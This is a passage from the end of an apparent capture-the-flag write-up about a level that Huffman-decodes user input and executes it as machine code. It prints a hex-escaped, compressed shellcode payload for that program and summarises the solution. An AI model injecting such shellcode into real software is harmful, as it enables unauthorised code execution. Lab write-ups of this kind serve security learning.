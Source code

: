 And I'm done! I have a compressed version of my shellcode that I can feed directly into the program:

<tt>\x89\x00\x00\x00\xd7\x5f\x67\xae\xbe\x35\xd7\xdf\x0d\x75\xfe\x09\x7d\x75\xf6\x75\x13\xba\xc3\x51\x33\xd4\x55\x44\xfc\xea\x91\x51\x3d\x0d\x83\xc3\xf5\xd1\x7e\xd9\xeb\xaf\xbe\x17\xd7\x5f\xe0\x98\xb3\x7f\x0f\x8e\xab\xbb\x2d\x9a\xfb\xaa\xee\xea\x0c\xfc\xd7\xdd\x57\xc7\xd5\x48\x7e\x9e\x03\xaf\x6c\x0a\x89\xe2\xaa\x46\x2d\x76\xc3\x51\x35\x36\xc1\xe1\xfa\xf5\xd7\xdf\x0a\x89\xc0\xa8\xad\x47\x55\x51\x33\x16\xc1\xe1\xfa\xf9\x6f\x86\xba\xf8\xae\x22\xb8\x8a\x8a\xaa\x46\xb0\x7c\x0b\x81\x6d\x39\xfe\x5e\x05\x47\x57\xad\xf3\x20\x78\xeb\x88\xdf\x6c\x35\x13\xc0\x6c\x1e\x1f\xac</tt>

Conclusion: my 118 bytes of shellcode compresses down to a clean 142 bytes. :)

<h2>Summary</h2>

So, once you figure it out, this level is actually pretty straight forward!

Basically, read its own binary, build a Huffman Tree, then use the user's input to walk that Huffman Tree to build the executable code to run. Or, in other words, decompress and run the shellcode that we send!
